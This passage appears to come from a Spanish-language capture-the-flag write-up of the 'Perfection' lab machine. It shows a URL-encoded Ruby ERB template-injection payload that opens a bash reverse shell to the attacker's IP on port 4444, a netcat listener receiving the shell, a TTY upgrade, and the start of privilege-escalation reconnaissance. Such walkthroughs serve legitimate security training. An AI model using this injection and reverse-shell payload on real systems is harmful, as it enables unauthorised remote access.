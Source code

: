 ~~~bash
test%0A%3C%25%20require%20%27open3%27%20%25%3E%3C%25%20%40a%2C%40b%2C%40c%2C%40d%3DOpen3%2Epopen3%28%27bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E16%2E50%2F4444%200%3E%261%22%27%29%20%25%3E%3C%25%3D%20%40b%2Ereadline%28%29%25%3E%0Atest
~~~

- Y si todo ha salido bien, deberíamos recibir una conexión al ponernos en escucha:

~~~bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.50] from (UNKNOWN) [10.10.11.253] 54342
bash: cannot set terminal process group (995): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ id
id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
~~~

- Realizamos un tratamiento de la TTY:

~~~bash
script /dev/null -c bash
^Z
stty size
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
~~~

***

### PrivEsc

- Ahora bien, podemos ver que estamos en el grupo sudo, pero no tenemos ninguna contraseña:

~~~bash
susan@perfection:~/ruby_app$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
susan@perfection:~/ruby_app$ sudo -l
[sudo] password for susan:
~~~

- Por lo que debemos buscar algo que posea alguna contraseña, ya sea una base de datos, una backup, etc.
- Busqué en el directorio del usuario y encontré varios directorios, entre ellos uno llamado `Migrations`, dentro había una base de datos:

~~~bash
susan@perfection:~$ ls -la
total 892
drwxr-x--- 7 susan susan   4096 Mar  8 07:01 .
drwxr-xr-x 3 root  root    4096 Oct 27 10:36 ..
lrwxrwxrwx 1 root  root       9 Feb 28  2023 .bash_history -> /dev/null
-rw-r--r-- 1 susan susan    220 Feb 27  2023 .bash_logout
-rw-r--r-- 1 susan susan   3771 Feb 27  2023 .bashrc
drwx------ 2 susan susan   4096 Oct 27 10:36 .cache
drwx------ 3 susan susan   4096 Mar  8 15:47 .gnupg
lrwxrwxrwx 1 root  root       9 Feb 28  2023 .lesshst -> /dev/null
drwxrwxr-x 3 susan susan   4096 Oct 27 10:36 .local
drwxr-xr-x 2 root  root    4096 Oct 27 10:36 Migration
-rw-r--r-- 1 susan susan    807 Feb 27  2023 .profile
lrwxrwxrwx 1 root  root       9 Feb 28  2023 .python_history -> /dev/null
drwxr-xr-x 4 root  susan   4096 Oct 27 10:36 ruby_app
lrwxrwxrwx 1 root  root       9 May 14  2023 .sqlite_history -> /dev/null
-rw-r--r-- 1 susan susan      0 Oct 27 06:41 .sudo_as_admin_successful
-rw-r----- 1 root  susan     33 Mar  8 05:02 user.txt
~~~